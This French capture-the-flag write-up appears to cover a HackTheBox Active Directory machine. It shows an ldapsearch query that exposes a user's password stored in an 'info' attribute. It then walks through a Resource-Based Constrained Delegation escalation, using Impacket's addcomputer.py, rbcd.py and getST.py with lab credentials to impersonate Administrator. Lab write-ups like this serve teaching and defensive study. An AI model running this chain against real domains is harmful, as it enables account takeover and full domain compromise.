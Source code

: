 On remarque que le compte **support** fait parti du groupe **SHARED SUPPORT ACCOUNTS**, qui a le droit **GENERIC ALL** sur le DC.

Cependant, on ne trouve a aucun moyen de récupérer le compte **support**.

### ldapsearch : support's password
En analysant les données de l'Active Directory directement avec **ldapsearch**, on observe un champs **"info"** qu'on ne pouvait pas voir sur bloodhound. Il contient... le mot de passe de l'utilisateur **support** :
```bash
$ ldapsearch -x -H ldap://10.10.11.174 -D "support\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" | grep -i "sAMAccountName.*support" -A10 -B25
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful  # <<<<<-------- HERE
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
...
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
...
```

## Privilege Escalation

### Generic All on DC : Resource-Based Constrained Delegation Attack
Nous avons observé auparavant que **support** appartient à un groupe ayant le droite "GENERIC ALL" sur le DC.  
Il faut alors exploiter une **Resource-Based Constrained Delegation** Attack.

En utilisant les conseils donnés par **bloodhound**, voici un exemple d'exploitation :
```bash
# First, if an attacker does not control an account with an SPN set, a new attacker-controlled computer account can be added with Impacket's addcomputer.py example script:
$ addcomputer.py -computer-name 'HACKED$' -computer-pass 'hacked123!' -dc-host DC.SUPPORT.HTB -domain-netbios support.htb support.htb/'support':'Ironside47pleasure40Watchful'

[*] Successfully added machine account HACKED$ with password hacked123!.

# We now need to configure the target object so that the attacker-controlled computer can delegate to it. Impacket's rbcd.py script can be used for that purpose:
$ rbcd.py -delegate-from "HACKED$" -delegate-to 'DC$' -dc-ip "10.10.11.174" -action write "support.htb"/"support":'Ironside47pleasure40Watchful'

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] HACKED$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     HACKED$      (S-1-5-21-1677581083-3380853377-188903654-5601)

# And finally we can get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. Impacket's getST.py example script can be used for that purpose.
$ getST.py -spn CIFS/dc.support.htb -impersonate Administrator -dc-ip "10.10.11.174" "support.htb"/'HACKED$':'hacked123!'
```